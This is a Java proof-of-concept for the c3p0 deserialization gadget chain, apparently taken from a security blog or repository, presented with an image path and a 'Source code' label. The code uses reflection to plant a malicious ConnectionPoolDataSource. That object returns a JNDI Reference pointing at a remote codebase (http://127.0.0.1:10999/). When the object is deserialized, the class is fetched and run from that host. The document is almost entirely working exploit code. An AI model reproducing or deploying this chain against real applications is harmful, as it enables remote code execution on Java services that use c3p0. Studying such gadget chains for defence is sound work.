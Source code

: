 ```

public class c3p0 {
    public static class exp implements ConnectionPoolDataSource, Referenceable{
        @Override
        public Reference getReference() throws NamingException {
            return new Reference(&#34;exp&#34;,&#34;exp&#34;,&#34;http://127.0.0.1:10999/&#34;);
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }
        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }
        @Override
        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }
        @Override
        public void setLogWriter(PrintWriter out) throws SQLException {
        }
        @Override
        public void setLoginTimeout(int seconds) throws SQLException {
        }
        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }
        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
    public static void main(String[] args) throws Exception{
        PoolBackedDataSourceBase pds = new PoolBackedDataSourceBase(false);
        //将connectionPoolDataSource属性值设为恶意的class
        Class cl = Class.forName(&#34;com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase&#34;);
        Field connectionPoolDataSourceField = cl.getDeclaredField(&#34;connectionPoolDataSource&#34;);
        connectionPoolDataSourceField.setAccessible(true);
        connectionPoolDataSourceField.set(pds, new exp());

        Unser(pds);
    }
    public static void Unser(Object obj) throws IOException, ClassNotFoundException {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(obj);
        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
    }
}
```

